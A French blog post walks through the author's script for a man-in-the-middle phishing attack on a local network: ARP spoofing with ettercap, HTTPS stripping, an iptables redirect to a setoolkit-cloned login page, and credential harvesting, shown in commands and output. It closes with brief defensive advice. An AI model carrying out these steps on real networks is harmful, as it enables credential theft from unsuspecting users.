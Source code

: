 ```yaml
---
layout: post
title:  "Phishing d'un site web avec attaque MITM"
date:   2016-09-08
categories: mitm
excerpt_separator: <!--more-->
---
```

Bonjour à tous,

Je me suis dit qu'il était intéressant de partager avec vous un script **Bash** que j'ai créé pour automatiser une attaque 'Man In The Middle' et rediriger vers une fausse page web que nous allons héberger ([https://github.com/phackt/mitm](https://github.com/phackt/mitm)). L'objectif est pour une attaque ciblée de rendre l'obtention des credentials la plus transparente possible. Cependant il n'existe pas de solution miracle, à chaque combat sa stratégie.  
<!--more-->
  
Ici nous allons donc cibler un site possédant une page d'accueil non sécurisée (HTTP), permettant l'interception en clair des liens HTTPS et de les transformer en liens HTTP classiques. Certains outils comme [sslstrip](https://github.com/moxie0/sslstrip) permettent ce genre d'opérations, en éliminant le caching des pages et en traitant également les headers response **Location** lors des redirections. De notre coté nous utiliserons un simple filtre [ettercap](https://github.com/Ettercap/ettercap) que nous compilerons avec etterfilter.  
  
Pour petit rappel:  

 > L'attaque de l'homme du milieu ou man-in-the-middle attack (MITM) est une attaque qui a pour but d'intercepter les communications entre deux parties, sans que ni l'une ni l'autre ne puisse se douter que le canal de communication entre elles a été compromis.  
  
![Mitm]({{ site.url }}/public/images/mitm-phishing/owasp-man_in_the_middle.jpg)  
Cette attaque se base sur la corruption du cache ARP enregistrant les correspondances @IP <-> @MAC sur un réseau local. Il existe plusieurs outils pour effectuer une [attaque MITM](https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/) et nous utiliserons Ettercap.  
  
Le site web a été falsifié grâce à l'outil [setoolkit](https://github.com/trustedsec/social-engineer-toolkit) (Social-Engineer Toolkit). Concernant la redirection du domaine, j'ai simplement effectué une règle iptables PREROUTING DNAT au lieu d'effectuer un DNS SPOOFING qui aurait demandé que le cache DNS soit vidé.   
  
Mais venons-en au cas pratique, voici l'exécution du script **phishing.ksh**:  
  
```
-----------------------------------------------
   --==MITM attack with website phishing==--   
-----------------------------------------------

[+] Flushing ip forwarding
[+] Flushing iptables

#HERE SET THE NAME OF THE LOG DIR THAT WILL BE CREATED
Name of 'Session'? (name of the folder that will be created with all the log files): test

#CHOOSE YOUR INTERFACE UP
[+] Discovering interfaces
lo:     state  UNKNOWN
eth0:   state  DOWN
wlan0:  state  UP
Please enter your interface: wlan0

#IF YOU WANNA CHANGE YOUR MAC ADDRESS (http://www.macvendors.com/)
Do you wanna spoof MAC @ ? [yYnN]: n

#TYPE THE DOMAIN THAT WILL BE REDIRECTED TO YOUR WEBSITE
Which domain do you wish to redirect ?: secure.domain.fr

#ASSUMING 192.168.1.99 IS THE MITM MACHINE LOCAL IP WITH APACHE RUNNING
[+] Setting up DNAT iptables rule
iptables -t nat -A PREROUTING -p tcp --dport 80 -d secure.domain.fr -j DNAT --to-destination 192.168.1.99:8080

#IF YOU WANNA RUN SETOOLKIT ( choose options 1) Social-Engineering -> 2) Website Attack Vectors -> 3) Credential Harvester Attack Method )
[+] Setting up website phishing
Do you wanna run setoolkit ? [yYnN]: n

[+] Starting apache2 service

#RUN NETDISCOVER IN ORDER TO ARPING THE SUBNET
[+] Net discovering
Do you wanna netdiscovering ? [yYnN]: y
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     01:12:23:34:45:56      1      42  Gateway
 192.168.1.100   12:23:34:45:56:67      2      84  Apple Macbook Pro

-- Active scan completed, 1 Hosts found.


[+] Routing information
Table de routage IP du noyau
Destination     Passerelle      Genmask         Indic Metric Ref    Use Iface
0.0.0.0         192.168.1.1     0.0.0.0         UG    600    0        0 wlan0
192.168.1.0     0.0.0.0         255.255.255.0   U     600    0        0 wlan0

#CHOOSE THE VICTIM
Enter target1 ip: 192.168.1.11
#CHOOSE THE SECOND MACHINE (DEFAULT IS GATEWAY)
Enter target2 ip [press enter for default gateway 192.168.1.1]: 

#LAUNCHING ETTERCAP WITH THE HTTPS STRIP ETTERCAP FILTER (https_strip.ef)
[+] Running MITM attack...

#IF YOU NEED TO LEGITIMATE AN ARP REPLY (IF GATEWAY IS A PRETENTIOUS YOUNG MADAM)
/!\ Please check poisoning is OK by typing 'P', then 'chk_poison'
Command for protected gateway: 
dhcping -c 192.168.1.100 -h 12:23:34:45:56:67 -s 192.168.1.1 -r -v

#SNIFFING HTTP REQUESTS
[+] Starting GET/POST logging...
urlsnarf: listening on wlan0 [tcp port 80 or port 8080 or port 3128]

#TAILING PHISHING WEBSITE HARVESTER FILE
[+] Looking for credentials...

[+] IMPORTANT...
After the job please close this script and clean up properly by hitting 'qQ'
```

Les outils MITM peuvent également forger dynamiquement un certificat pour interception des connexions TLS/SSL. Cependant ce dernier n'étant pas signé par une autorité de certification vérifiée, un warning dans votre navigateur affichera que le certificat est non valide (assez discret sous Safari cependant).  

![Certificat]({{ site.url }}/public/images/mitm-phishing/alerte-certificat.png)  

 > <span style="color: red">Cliquez sur 'Back to safety'</span>
  
Dans notre exemple, la connexion au site falsifié est non sécurisée (évitant les alertes de certificats). Donc vérifier toujours le cadenas vert dans la barre d'url et que votre connexion soit sécurisée.  
  
Dans le cas d'une autorité de certification compromise le pinning de clé publique pourrait avoir son utilité même si le HPKP devient obsolète et ne sera plus supporté sous Chrome au bénéfice du 'Certificate Transparency'. Nous voyons aussi l'importance du HSTS (Strict-Transport-Security) abordé dans les [précédents articles]({{ site.url }}/xss-cors-csrf-partie-3-cors-csrf#hsts) pour forcer les connexions HTTPS. Certains firewall (ex [Symantec](https://www.symantec.com/security_response/glossary/define.jsp?letter=a&word=anti-mac-spoofing)) empêchent les ARP Reply non légitimes.  
  
L'autre solution la plus couramment utilisée reste le cloisonnement en VLAN. Si vous vous connectez à un HotSpot, établir un canal chiffré (ex VPN) est également une idée.  
  
A bientôt.
<br />
<br />
Références :  
[https://www.owasp.org/index.php/Man-in-the-middle_attack](https://www.owasp.org/index.php/Man-in-the-middle_attack)  
[https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/](https://www.owasp.org/index.php/Man-in-the-middle_attack)
